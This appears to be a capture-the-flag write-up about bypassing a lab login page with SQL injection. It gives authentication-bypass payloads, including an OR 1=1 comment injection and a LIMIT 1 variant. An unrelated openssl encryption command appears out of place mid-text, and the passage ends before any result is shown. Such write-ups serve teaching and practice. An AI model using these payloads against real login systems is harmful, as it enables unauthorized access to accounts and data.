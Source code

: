 ## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b7979ec7-1156-456f-9daf-44cd5e46a6f5)

Navigating to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b61c15f0-a295-4c77-b7d0-c6ac3b6c4826)
openssl rsautl -encrypt -pubin -inkey public_key.pem -in plaintext.txt -out encrypted.txt

The task for this is to bypass this login page. Trying this query
```
username: admin" or "1"="1--
password: blablabla
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eb1faa32-753a-402a-97a6-e7ce5150251b)

We get this "invalid credentials" error. If you recall, the task involved using the ```LIMIT``` keyword. So, lets use this query
```
username: admin" or "1"="1 LIMIT 1--
password: blablabla
```


